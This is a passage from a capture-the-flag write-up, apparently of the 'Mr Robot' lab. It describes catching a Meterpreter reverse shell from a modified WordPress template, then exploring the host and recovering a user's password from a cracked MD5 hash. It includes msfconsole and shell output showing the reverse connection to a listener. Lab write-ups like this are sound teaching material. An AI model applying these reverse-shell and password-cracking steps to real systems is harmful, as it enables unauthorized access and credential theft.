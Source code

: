 With Meterpreter listening for the reverse shell, I went back to the browser where I was modifying the template, and finished the editing by clicking "Update File", at the bottom:

After visiting any non-existent URL, like `http://IP/asdfasd`, I noticed that the browser staid in a loading state, which is a good sign that a the reverse shell connection was being established. Once I went back to msfconsole, I confirmed that the session had been opened, and that I could start inspecting the filesystem of the host:

```bash
[*] Started reverse TCP handler on YOUR_VIRTUAL_IP:4444

[*] Sending stage (38288 bytes) to 10.10.117.144
[*] Meterpreter session 1 opened (YOUR_VIRTUAL_IP:4444 -> 10.10.117.144:50654) at 2020-08-10 22:36:13 -0700

meterpreter >
meterpreter > pwd
/opt/bitnami/apps/wordpress/htdocs
meterpreter > shell
Process 2356 created.
Channel 0 created.
whoami
daemon
cd /home
ls
robot
cd robot
ls
key-2-of-3.txt
password.raw-md5
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```

Here, I found the second key, but I didn't have the right permissions to read the file:

```bash
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

I noticed that there was another file named `password.raw-md5`:

```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Since I was feeling optimistic, I searched the web for the md5, and I found out that it's [been already cracked](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b), with the respective non-hashed value being `abcdefghijklmnopqrstuvwxyz`. I thought it was fairly safe to assume this is the password for the user `robot`.
